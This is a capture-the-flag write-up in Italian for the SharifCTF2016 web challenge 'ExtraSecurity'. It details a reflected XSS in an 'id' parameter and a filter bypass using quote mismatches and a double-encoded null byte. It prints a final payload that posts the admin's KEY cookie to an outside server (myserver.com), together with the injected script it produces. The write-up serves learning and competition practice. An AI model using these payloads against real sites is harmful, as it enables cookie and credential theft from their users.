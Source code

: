 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [Web,SharifCTF2016]
author: jbz
---
```



Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.

![L'homepage della challenge](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_1.png)

Offriva la possibilita' di firmare con la propria chiava (impostata dal server in un cookie 'KEY') o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifice.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi avrebbe filtrato le XSS.

Il primo problema consisteva nel fatto che nella propria pagina effettuare la firma, all'invio del form veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

(http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>)

Dal sorgente pagina si puo' quindi notare questo codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che e' quello che causa la reindirizzazione.

Piu' in basso si nota anche il seguente codice, che pero' non viene eseguito:

```
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuisce subito che il campo GET 'id' puo' essere vulnerabile ad XSS ma che e' presente un filtro custom che filtra la maggior parte delle keyword o simboli: eval, alert, document, this sono solo alcuni dei filtri presenti. C'e' inoltre un limite di caratteri.

La nostra idea era quella di sfruttare la vulnerabilita' nel campo 'id', il cui contenuto viene riflesso sia nel primo script che nel secondo per rubare il cookie 'KEY' all'admin e effettuare la firma in autonomia.
Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in poForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step e' trovare un modo per rompere il primo script ma non il secondo, e questo e' possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo.

```
view-source:http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1
```
Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge prompt(c['KEY']) (equivalente di alert(c['KEY'] ma non filtrato), e crea un nuovo dict per completare la sintassi gia' esistente.

Risulta quindi
```
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
    </script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```
Il che conferma la spiegazione sopra.

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola 'post', 'xml' o simili facevano scattare il filtro, mentre altri tipi di offuscamento come jsfuck risultavano in una stringa troppo lunga.
Dopo diversi tentativi, supponendo che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziamo a provare inserendo null bytes %00 altri caratteri come %0a e %0d.
Il null byte funziona ed il filtro smette di funzionare per qualsiasi carattere/strings dopo la presenza di %00. Continuando nei test noto pero' che anche Chrome ha qualche problema nel gestire la sintassi in caso di null bytes nel sorgente (al momento del writeup non riesco a riprodurre il problema..), provo quindi effettuando un double encoding, cioe' inserendo %2500 e noto che funziona lo stesso. Il payload finale quindi consiste in:

```http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1```

Che risulta nel seguente codice:

```
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
    </script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da 'garbage' in poi il codice serve solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non viene mai condirato in quanto la XSS non richiede tag HTML poiche' il payload finisce gia' all'interno di tag <script>.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.
